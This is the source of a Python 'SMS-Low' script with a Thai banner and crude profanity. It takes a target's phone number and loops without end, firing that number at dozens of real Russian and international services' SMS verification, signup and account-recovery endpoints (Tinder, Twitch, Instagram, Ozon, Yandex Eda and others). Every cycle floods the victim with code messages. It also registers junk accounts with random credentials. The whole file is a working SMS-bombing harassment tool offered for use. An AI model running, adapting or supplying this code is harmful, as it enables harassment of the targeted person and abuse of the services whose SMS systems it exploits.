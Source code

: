 # sms-low
import requests, random, datetime, sys, time, argparse, os, colorama
os.system("clear")
os.system("figlet SMS-Low")
banner = """\033[36m
FB: sorawit poomthong
 YT: sammer hacker
 ควย_<สคิปนี้เเค่ทําเล่นๆไม่ต้องคิดมากไอ้สัส>
"""
print(banner)
_phone = input('\033[36mใส่ควยไรก็ได้>>>_\033[0m \033[35m ')
if _phone[0] == '+':
	_phone = _phone[1:]
if _phone[0] == '8':
	_phone = '7'+_phone[1:]
if _phone[0] == '9':
	_phone = '7'+_phone

_name = ''
for x in range(12):
	_name = _name + random.choice(list('123456789qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM'))
	password = _name + random.choice(list('123456789qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM'))
	username = _name + random.choice(list('123456789qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM'))

_phone9 = _phone[1:]
_phone9dostavista = _phone9[:3]+'+'+_phone9[3:6]+'-'+_phone9[6:8]+'-'+_phone9[8:10]

iteration = 0
print('กำลังทำงาน! \033[32m ')
print(' ')
while True:
	_email = _name+f'{iteration}'+'@gmail.com'
	email = _name+f'{iteration}'+'@gmail.com'
	try:
		requests.post('https://moscow.rutaxi.ru/ajax_keycode.html', data={'l': _phone9}).json()["res"]
		print('\033[F[#]           ')
	except:
		print('\033[F[#] ')

	try:
		requests.post('https://api.gotinder.com/v2/auth/sms/send?auth_type=sms&locale=ru', data={'phone_number': _phone}, headers={})
		print('\033[F[##]            ')
	except:
		print('\033[F[##]            ')

	try:
		requests.post('https://app.karusel.ru/api/v1/phone/', data={'phone': _phone}, headers={})
		print('\033[F[###]            ')
	except:
		print('\033[F[###]            ')
	try:
		requests.post('https://api.mtstv.ru/v1/users', json={'msisdn': _phone}, headers={})
		print('\033[F[####]            ')
	except:
		print('\033[F[####]            ')

	try:
		requests.post('https://youla.ru/web-api/auth/request_code', data={'phone': _phone})
		print('\033[F[#]            ')
	except:
		print('\033[F[#]            ')

	try:
		requests.post('https://www.citilink.ru/registration/confirm/phone/+'+_phone+'/')
		print('\033[F[##]            ')
	except:
		print('\033[F[##]            ')

	try:
		requests.get('https://findclone.ru/register?phone=+'+_phone, params={'phone': '+'+_phone})
		print('\033[F[###]            ')
	except:
		print('\033[F[###]            ')

	try:
		requests.post('https://api.sunlight.net/v3/customers/authorization/', data={'phone': _phone})
		print('\033[F[####]            ')
	except:
		print('\033[F[####]            ')

	try:
		requests.post('https://lk.invitro.ru/lk2/lka/patient/refreshCode', data={'phone': _phone})
		print('\033[F[#]            ')
	except:
		print('\033[F[#]            ')

	try:
		requests.post('https://app.karusel.ru/api/v1/phone/', data={'phone': _phone})
		print('\033[F[##]            ')
	except:
		print('\033[F[##]            ')

	try:
		requests.post('https://app-api.kfc.ru/api/v1/common/auth/send-validation-sms', json={'phone': '+' + _phone})
		print('\033[F[###]            ')
	except:
		print('\033[F[###]            ')

	try:
		requests.post('https://www.icq.com/smsreg/requestPhoneValidation.php',data={'msisdn': _phone, "locale": 'en', 'countryCode': 'ru','version': '1', "k": "ic1rtwz1s1Hj1O0r", "r": "46763"})
		print('\033[F[####]            ')
	except:
		print('\033[F[####]            ')

	try:
		requests.post("https://lk.invitro.ru/sp/mobileApi/createUserByPassword", data={"password": password, "application": "lkp", "login": "+" + _phone})
		print('\033[F[#]            ')
	except:
		print('\033[F[#]            ')

	try:
		requests.get('https://findclone.ru/register?phone=+'+_phone, params={'phone': '+'+_phone})
		print('\033[F[####]            ')
	except:
		print('\033[F[####]            ')

	try:
		requests.post('https://cloud.mail.ru/api/v2/notify/applink',json={"phone": "+" + _phone, "api": 2, "email": "email","x-email": "x-email"})
		print('\033[F[#]            ')
	except:
		print('\033[F[#]            ')

	try:
		requests.post("https://ok.ru/dk?cmd=AnonymRegistrationEnterPhone&st.cmd=anonymRegistrationEnterPhone",data={"st.r.phone": "+" + _phone})
		print('\033[F[##]            ')
	except:
		print('\033[F[##]            ')

	try:
		requests.post('https://passport.twitch.tv/register?trusted_request=true',json={"birthday": {"day": 11, "month": 11, "year": 1999},"client_id": "kd1unb4b3q4t58fwlpcbzcbnm76a8fp", "include_verification_code": True,"password": password, "phone_number": _phone,"username": username})
		print('\033[F[###]            ')
	except:
		print('\033[F[###]            ')

	try:
		requests.post('https://youla.ru/web-api/auth/request_code', data={'phone': _phone})
		print('\033[F[####]            ')
	except:
		print('\033[F[####]            ')

	try:
		requests.post('https://www.instagram.com/accounts/account_recovery_send_ajax/', data={'email_or_username': _phone, 'recaptcha_challenge_field':''})
		print('\033[F[#]            ')
	except:
		print('\033[F[#]            ')

	try:
		requests.post('https://vladikavkaz.edostav.ru/site/CheckAuthLogin', data={"phone_or_email":_phone}, headers={"Host": "vladikavkaz.edostav.ru",
	"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0",
	"Accept": "application/json, text/javascript, */*; q=0.01",
	"Accept-Language": "en-US,en;q=0.5",
	"Accept-Encoding": "gzip, deflate, br",
	"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
	"X-Requested-With": "XMLHttpRequest",
	"Content-Length": "26"})
		print('\033[F[##]            ')
	except:
		print('\033[F[##] ')
	try:
		requests.post('https://youla.ru/web-api/auth/request_code', data={"phone":_phone})
		print('\033[F[#]            ')
	except:
		print('\033[F[#]            ')
	try:
		requests.post("https://fix-price.ru/ajax/register_phone_code.php",data={"register_call": "Y", "action": "getCode", "phone": "+" + _phone})
		print('\033[F[##]            ')
	except:
		print('\033[F[##]            ')
	try:
		requests.post("https://ube.pmsm.org.ru/esb/iqos-phone/validate", json={"phone": _phone})
		print('\033[F[###]            ')
	except:
		print('\033[F[###]            ')
	try:
		requests.post("https://api.ivi.ru/mobileapi/user/register/phone/v6",data={"phone": _phone})
		print('\033[F[####]            ')
	except:
		print('\033[F[#]            ')
	try:
		requests.post("https://account.my.games/signup_send_sms/", data={"phone": _phone})
		print('\033[F[#]            ')
	except:
		print('\033[F[#]            ')
	try:
		requests.post("https://www.ozon.ru/api/composer-api.bx/_action/fastEntry",json={"phone": _phone, "otpId": 0})
		print('\033[F[##]            ')
	except:
		print('\033[F[##]            ')
	try:
		requests.post("https://smart.space/api/users/request_confirmation_code/",json={"mobile": "+" +_phone, "action": "confirm_mobile"})
		print('\033[F[###]            ')
	except:
		print('\033[F[###]            ')
	try:
		requests.post("https://dostavista.ru/backend/send-verification-sms", data={"phone": _phone})
		print('\033[F[####]            ')
	except:
		print('\033[F[####]            ')
	try:
		requests.post("https://eda.yandex/api/v1/user/request_authentication_code",json={"phone_number": "+" + _phone})
		print('\033[F[#]            ')
	except:
		print('\033[F[#]            ')
	try:
		requests.post("https://shop.vsk.ru/ajax/auth/postSms/", data={"phone": _phone})
		print('\033[F[#]            ')
	except:
		print('\033[F[#]            ')
	try:
		requests.post("https://msk.tele2.ru/api/validation/number/" +_phone,json={"sender": "Tele2"})
		print('\033[F[#]            ')
	except:
		print('\033[F[#]            ')
	try:
		requests.post("https://pay.visa.ru/api/Auth/code/request",json={"phoneNumber": "+" +_phone})
		print('\033[F[##]            ')
	except:
		print('\033[F[##]            ')
	try:
		iteration += 1
	except:
		break
